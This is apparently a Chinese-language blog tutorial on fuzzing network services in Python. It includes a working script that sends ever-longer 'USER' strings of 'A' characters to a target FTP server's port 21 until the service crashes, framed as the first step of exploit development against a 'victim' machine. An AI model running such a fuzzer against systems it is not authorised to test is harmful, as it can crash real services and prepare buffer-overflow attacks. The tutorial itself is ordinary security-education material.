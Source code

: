 ```yaml
---
layout: post
title: Python黑客之旅0x4
categories: Python Hacker
description: Python信息安全中的应用
keywords: Python, KaliLinux
---
```


* TOC 
{:toc}

## 编写Fuzz测试脚本

 这一章将会演示教你如何写一个属于自己的`Fuzz`测试脚本，当我们进行`exploit`研究和开发的时候就可以使用脚本语言发送大量的测试数据给受害者机器，但是这个错误数据很容易引发应用程序崩溃掉。

而`Python`却不同，当程序崩溃之后，此时你的程序会暂时断开连接，随后会立即创建一个新的连接继续执行。
 
 下面我们首先要解决的问题是应用程序如何处理用户输入的内容，因为在进行模糊测试的时候，我们会不定时的想到一些新的思路然后把数据发送给受害者机器上面来测试，这基本思路就是先与服务器建立连接,然后发送测试数据给服务器，通过`while`循环语句来判断是否成功，即使出现错误也会处理掉:
 




## 下面是我们的扫描器伪代码:
 
``` python
 #导入socket,sys模块，如果是web服务那么还需要导入httplib,urllib等模块
 <import modules> 

#设置ip/端口
#调用脚本: ./script.py <RHOST> <RPORT>
RHOST = sys.argv[1]
RPORT = sys.argv[2]
 
#定义你的测试数据,并且设置测试数据范围值
buffer = '\x41'*50
 
#使用循环来连接服务并且发送测试数据
while True:
  try:
    # 发送测试数据
    # 直到递增到50
    buffer = buffer + '\x41'*50
  except:
    print "Buffer Length: "+len(buffer)
    print "Can't connect to service...check debugger for potential crash"
```

上面这个脚本框架能够适用于各种服务，你可以根据你的服务(`https,http,mysql,sshd`)编写特定模糊测试脚本.下面我们演示一个基于`USER`命令的ftp服务器模糊测试脚本:

## 模糊测试脚本

``` python
#导入你将要使用的模块，这样你就不用去自己实现那些功能函数了
import sys, socket
from time import sleep
 
#声明第一个变量target用来接收从命令端输入的第一个值
target = sys.argv[1]
#创建50个A的字符串 '\x41'
buff = '\x41'*50
 
# 使用循环来递增至声明buff变量的长度50
while True:
  #使用"try - except"处理错误与动作
  try:
    # 连接这目标主机的ftp端口 21
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.settimeout(2)
    s.connect((target,21))
    s.recv(1024)
 
    print "Sending buffer with length: "+str(len(buff))
    #发送字符串:USER并且带有测试的用户名
    s.send("USER "+buff+"\r\n")
    s.close()
    sleep(1)
    #使用循环来递增直至长度为50
    buff = buff + '\x41'*50
 
  except: # 如果连接服务器失败，我们就打印出下面的结果
    print "[+] Crash occured with buffer length: "+str(len(buff)-50)
    sys.exit()
```

> 上面这段代码演示了一个基本的Fuzz测试脚本，但是值得注意的是执行上面的代码，提交`\x41`字符可能不会让你成功的拿下受害主机，但是你可以尝试组合一些其他的字符(用户词典).此外还有一个更加强大的Fuzz测试工具[Spike](https://www.blackhat.com/presentations/bh-usa-02/bh-us-02-aitel-spike.ppt)和[具体介绍与演示](http://resources.infosecinstitute.com/intro-to-fuzzing/),它可以一次性的测试大量数据，并且能让你提高成功概率.

## 练习
大家可以把上面的`ftp`测试换成`http`测试，这里提示:你可能需要使用`httplib/urllib`.下一章

